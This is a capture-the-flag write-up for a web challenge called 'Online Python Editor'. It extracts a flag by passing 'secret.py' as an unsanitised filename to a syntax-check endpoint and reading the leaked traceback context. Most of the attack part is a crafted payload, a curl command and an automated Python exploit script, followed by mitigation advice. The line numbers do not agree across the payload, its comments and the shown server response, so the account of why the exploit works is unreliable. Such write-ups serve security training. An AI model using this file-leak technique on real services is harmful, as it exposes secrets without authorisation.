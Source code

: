 **Writeup: CTF Challenge - Online Python Editor**

**Challenge Name:** Online Python Editor  
**Category:** Web Exploitation  
**Difficulty:** Medium  
**Flag:** `TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}`

---

### **Challenge Analysis**
A web application provides a Python syntax checker endpoint (`/check`) that uses `ast.parse()`. The server contains a `secret.py` file with the flag, which we need to extract through error message leakage.

---

### **Key Vulnerabilities**
1. **Filename Parameter Control**  
   The `filename` parameter in the JSON payload isn't sanitized, allowing path specification.
   
2. **Error Message Leakage**  
   Syntax errors return tracebacks showing code context from the specified file.

---

### **Exploit Strategy**
1. **Force Error Context Leakage**  
   Craft a payload that triggers a syntax error at the exact line where `FLAG` is declared in `secret.py`.

2. **Structure Mirroring**  
   Replicate `secret.py`'s code structure up to the flag declaration line to align error positions.

---

### **Step-by-Step Exploit**

#### 1. Analyze `secret.py` Structure
```python
def main():
    print("Here's the flag: ")
    print(FLAG) 
    
FLAG = "TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}"

main()
```

#### 2. Craft Malicious Payload
```python
{
    "source": (
        "def main():\n"
        "    print(\"Here's the flag: \")\n"
        "    print(FLAG)\n\n"
        "FLAG = \"\"\n"  # Valid syntax up to line 4
        "invalid syntax"  # Force error at line 5
    ),
    "filename": "secret.py"
}
```

#### 3. Send Payload to Endpoint
```bash
curl -X POST http://python.ctf.theromanxpl0.it:7001/check \
     -H "Content-Type: application/json" \
     -d '{"source":"def main():\n    print(\"Here\'s the flag: \")\n    print(FLAG)\n\nFLAG = \"\"\ninvalid syntax","filename":"secret.py"}'
```

#### 4. Analyze Error Response
The server returns:
```
  File "secret.py", line 5
    invalid syntax
    ^
SyntaxError: invalid syntax
```

**Surrounding Context:**
```
3│    print(FLAG)
4│    
5│FLAG = "TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}"
```

---

### **Automated Exploit Script**
```python
import requests
import re

TARGET_URL = "http://python.ctf.theromanxpl0.it:7001/check"

payload = {
    "source": (
        "def main():\n"
        "    print(\"Here's the flag: \")\n"
        "    print(FLAG)\n\n"
        "FLAG = \"\"\n"
        "invalid syntax"
    ),
    "filename": "secret.py"
}

response = requests.post(TARGET_URL, json=payload)
error = response.json().get("error", "")

flag_match = re.search(r'FLAG = "(TRX{.*?})"', error)
print(f"Captured Flag: {flag_match.group(1)}") if flag_match else print("Exploit failed")
```

---

### **Why This Works**
- **Filename Poisoning:** Forces error traceback to reference `secret.py`
- **Line Alignment:** Matches code structure to expose the flag line
- **Error Context:** Flask's debug mode shows 3-5 lines around errors

---

### **Mitigation Recommendations**
1. **Sanitize Filename Inputs**  
   Restrict filenames to safe values.
   
2. **Disable Debug Mode**  
   Prevent detailed error messages in production.

3. **Sandbox Code Analysis**  
   Use isolated environments for parsing untrusted code.

---

**Flag Captured:** `TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}`

This challenge demonstrates the importance of proper error handling and input validation in web applications. Always sanitize user-controlled parameters that interact with file systems!